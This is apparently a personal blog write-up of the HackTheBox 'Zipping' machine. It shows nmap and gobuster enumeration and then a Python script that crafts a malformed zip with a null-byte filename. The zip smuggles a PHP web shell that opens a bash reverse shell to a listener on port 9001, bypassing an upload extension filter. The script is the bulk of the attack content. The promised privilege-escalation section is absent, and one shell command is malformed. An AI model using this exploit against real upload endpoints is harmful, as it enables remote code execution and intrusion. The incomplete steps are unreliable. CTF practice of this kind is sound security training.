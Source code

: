 ```yaml
---
title: Zipping
date: 2023-12-13 01:19:40 +0000
categories: [htb]
tags: [htb]     # TAG names should always be lowercase
---
```


## **<span style='color:#ff5555'>Zipping</span>**

Welcome to my another writeup! In this HackTheBox [Zipping] machine, you'll learn: Content discovery via `gobuster Or anything`, exploiting file upload vulnerbility & extension filter bypass.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Table of Content

1. **[Service Enumeration](#service-enumeration)**
2. **[Initial Foothold](#initial-foothold)**
3. **[Privilege Escalation:](#privilege-escalation)**
4. **[Conclusion](#conclusion)**

## Background

![Alt Text](/assets/images/htb/zipping.png)

## Service Enumeration

**Create 2 environment variables for future use:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ export RHOSTS=10.10.11.229

k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ 
export LHOST=ifconfig tun0 | grep -E 'inet [0-9]+\.[0-9]+\.[0-9]+\.[0-9]' | cut -d' ' -f10
```

As usual, scan the machine for open ports via `nmap`!

**nmap:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ nmap -sC -sV -T4 -A --vv $ip -oN nmap_day

Result :
Discovered open port 22/tcp on 10.10.11.229
Discovered open port 80/tcp on 10.10.11.229

PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp   open     http    syn-ack     Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.54 (Ubuntu)
3945/tcp filtered emcads  no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now, we can perform content discovery using tools like gobuster to find hidden directories and files:

```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$
gobuster dir -u http://10.10.11.229/ -w /home/k0r3k/cybersec/exploit/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -t 40
```

- Found directory: **`/upload.php `**

Here we can see that we have to upload a zip file containing a pdf, with this scenario we can identify a zip flip attack.

I made it in python so it can be reviewed

```python
from struct import pack
import argparse
import zlib
import requests

parser = argparse.ArgumentParser(description='Exploit Zipper')
parser.add_argument('-L', '--listener_ip', help='listener ip')
parser.add_argument('-R', '--target_ip', help='target ip')
args = parser.parse_args()

filename1 = b'rev.php.pdf'
filename2 = b'rev.php\x00.pdf'

filecontent = b"""<?php system("bash -c 'bash -i >& /dev/tcp/"""+args.listener_ip.encode()+b"""/9001 0>&1'"); ?>"""
length = len(filecontent)
crc = zlib.crc32(filecontent)


p  = b''
p += b'\x50\x4b\x03\x04' # magic bytes
p += b'\x14\x00' # version
p += b'\x00\x00' # flags
p += b'\x00\x00' # compression
p += b'\x48\xb9' # modtime
p += b'\x1b\x57' # moddate
p += pack("<L", crc) # crc
p += pack("<L", length) # compressed size
p += pack("<L", length) # uncompressed size
p += pack("<H", len(filename1)) # filename len
p += b'\x00\x00' # extra field len
p += filename1
p += filecontent

# central directory
cd  = b''
cd += b'\x50\x4b\x01\x02' # magic bytes
cd += b'\x14\x03' # version
cd += b'\x14\x00' # version needed
cd += b'\x00\x00' # flags
cd += b'\x00\x00' # compression
cd += b'\x48\xb9' # modtime
cd += b'\x1b\x57' # moddate
cd += pack("<L", crc) # crc
cd += pack("<L", length) # compressed size
cd += pack("<L", length) # uncompressed size
cd += pack("<H", len(filename2)) # filename len
cd += b'\x00\x00' # extra field len
cd += b'\x00\x00' # file comm. len
cd += b'\x00\x00' # disk start
cd += b'\x00\x00' # internal attr.
cd += b'\x00\x00\xA4\x81' # external attr
cd += b'\x00\x00\x00\x00' # offset of local header
cd += filename2

# end of centryl directory record
ecd  = b''
ecd += b'\x50\x4b\x05\x06' # magic bytes
ecd += b'\x00\x00' # disk number
ecd += b'\x00\x00' # disc # w/cd
ecd += b'\x01\x00' # disc entries
ecd += b'\x01\x00' # total entries
ecd += pack("<L", len(cd)) # central directory size
ecd += pack("<L", len(p))
ecd += b'\x00\x00'

f = open("rev.zip", "wb")
f.write(p+cd+ecd)
```

## And Get the shell And root, eNJOY tHE Game.

# **<span style='color:#ff5555'>DISCLAIMER</span>**
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet, and its content does match with the creation of an interesting challenges 😉.
```